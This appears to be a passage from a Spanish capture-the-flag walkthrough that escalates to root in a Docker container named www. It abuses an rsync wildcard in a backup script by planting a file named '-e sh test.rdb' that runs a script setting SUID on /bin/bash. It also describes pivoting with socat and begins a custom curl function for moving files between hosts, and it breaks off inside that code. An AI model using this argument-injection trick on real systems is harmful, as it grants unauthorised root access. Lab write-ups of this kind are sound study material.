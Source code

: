 Lo podemos enviar por base64 al contenedor **www** y lo ejecutamos. Vemos que hay un fichero backup.sh que se ejecuta

```bash
cat /backup/backup.sh
```

Vemos que entra en un directorio y hace un rsync de todos los ficheros que acaben con la extension .rdb para enviarlos a la maquina backup:873/src/backup, 
y finalmente borra todo lo que hay en /var/www/html y lanza un nuevo rsync para copia todo lo que hay en backup:873/src/backup.

Aqui el problema es que el commando rsync es vulnerable porque utiliza un wildcard (*.rdb). Si vamos a [gtfobins](https://gtfobins.github.io/gtfobins/rsync/#shell),
vemos que podemos lanzar commandos con el parametro -e.

#### Privesc a root del contenedor www {-}

La idea aqui seria crear un fichero con un nombre turbio que contiene -e.

1. creamos un script en bash 

    ```bash
    #!/bin/bash

    chmod u+s /bin/bash
    ```

1. lo enviamos al contenedor por base64 y lo nombramos test.rdb en el directorio /var/www/html/f187a0ec71ce99642e4f0afbd441a68b
1. en el directorio /var/www/html/f187a0ec71ce99642e4f0afbd441a68b creamos un nuevo fichero

    ```bash
    touch -- '-e sh test.rdb'
    ```

Esperamos un poco y podemos ver que la bash es SUID y que con el comando `bash -p` nos convertimos en root y podemos leer la flag.
Como ya podemos utilizar ping, vamos a ver que maquina es la backup.

```bash
ping -c 1 backup
```

vemos que backup es la 172.20.0.3. Tambien podemos usar del rsync para ver los ficheros del backup. Vamos a subir el socat al contenedor www.
Como **www** tiene connectividad con la maquina **nodered**, y que esta tiene connectividad con socat (1111 <--> 2222) a nuestra maquina, podemos
usar de esto para subir ficheros.

### Ganando acceso al contenedor Backup {-}

1. Creamos la funccion __curl al contenedor www

    ```bash
    function __curl() {
        read proto server path <<<$(echo ${1//// })
        DOC=/${path// //}
        HOST=${server//:*}
        PORT=${server//*:}
        [[ x"${HOST}" == x"${PORT}" ]] && PORT=80
